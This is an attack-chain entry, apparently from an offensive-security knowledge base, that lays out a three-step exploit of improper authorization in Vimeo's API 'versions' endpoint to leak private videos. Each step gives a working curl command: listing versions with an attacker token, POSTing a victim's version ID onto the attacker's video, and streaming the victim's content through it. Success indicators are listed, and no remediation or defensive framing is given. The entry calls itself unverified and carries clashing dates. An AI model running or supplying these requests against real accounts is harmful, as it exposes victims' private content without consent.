

---
tags:
  - improper-auth
  - api-vulnerability
  - unauthorized-access
  - video-leak
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
procedures:
  - '[[procedures/Access-Vimeo-Versions-Endpoint-Without-Auth]]'
  - '[[procedures/Move-Victims-Video-Version-to-Attackers-Video]]'
  - '[[procedures/Access-Victims-Private-Content-via-Attackers-Video]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Multi-stage attack exploiting improper authentication in Vimeo's API versions
  endpoint to access and leak private videos from pro/business accounts.
skill_level: intermediate
impact_level: high
id: 77e1ad0f-405b-4b98-8147-7ee8aa7bfabc
created_at: '2025-12-14T17:32:39.464Z'
updated_at: '2025-12-14T17:32:39.464Z'
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Vimeo API Versions Endpoint Improper Authentication Leading to Private Video Leakage

Multi-stage attack chain demonstrating exploitation of improper authentication in Vimeo's API 'versions' endpoint, allowing non-pro/business accounts to access and manipulate video versions, resulting in leakage of private videos.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP clients like curl)

### Target Environment

- Web platform
- Vimeo API services
- Access to a non-pro/business Vimeo account

### Initial Access Requirements

- Valid Vimeo account (non-pro/business)
- API access token for the attacker's account
- Knowledge of victim's video ID

## Detailed Attack Procedures

### Step 1: Access Versions Endpoint Without Authentication
procedure: [[procedures/Access-Vimeo-Versions-Endpoint-Without-Auth]]

**Objective**: Gain unauthorized access to the versions endpoint intended for pro/business users.

**Instructions**: Use a standard HTTP client to query the versions endpoint with an attacker's API token, bypassing intended restrictions.

Execute [[commands/curl-access-versions-endpoint]] to test access:

```bash
curl -H "Authorization: bearer YOUR_ATTACKER_TOKEN" https://api.vimeo.com/videos/VIDEO_ID/versions
```

**Expected Output**: JSON response listing video versions, confirming unauthorized access.

**Success Indicators**:
- API returns video version data without error
- No authentication denial for non-pro account

### Step 2: Move Victim's Video Version to Attacker's Video
procedure: [[procedures/Move-Victims-Video-Version-to-Attackers-Video]]

**Objective**: Craft a request to associate the victim's private video version with the attacker's video.

**Instructions**: Identify the victim's private video version ID and use a POST request to move it to the attacker's video resource.

Execute [[commands/curl-move-video-version]] to perform the move:

```bash
curl -X POST -H "Authorization: bearer YOUR_ATTACKER_TOKEN" -d '{"version_id": VICTIM_VERSION_ID}' https://api.vimeo.com/videos/ATTACKER_VIDEO_ID/versions
```

**Expected Output**: Success response (200 OK) confirming the version association.

**Success Indicators**:
- Version moved without authorization errors
- Attacker's video now references the victim's version

### Step 3: Access Victim's Private Content via Attacker's Video
procedure: [[procedures/Access-Victims-Private-Content-via-Attackers-Video]]

**Objective**: Play the attacker's video to stream and access the victim's private content.

**Instructions**: Load the attacker's video in a browser or media player; the backend will serve the victim's private video due to the manipulated version.

Execute [[commands/curl-play-attackers-video]] to fetch the video stream:

```bash
curl -H "Authorization: bearer YOUR_ATTACKER_TOKEN" https://player.vimeo.com/video/ATTACKER_VIDEO_ID
```

Or simply access via browser: https://vimeo.com/ATTACKER_VIDEO_ID

**Expected Output**: Video playback reveals victim's private content instead of attacker's.

**Success Indicators**:
- Private video content is streamed
- Unauthorized leakage confirmed

## Attack Chain Summary

### Key Achievements

1. Bypassed authentication restrictions on API endpoint
2. Manipulated video versions to hijack private content
3. Achieved unauthorized access and leakage of private videos

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
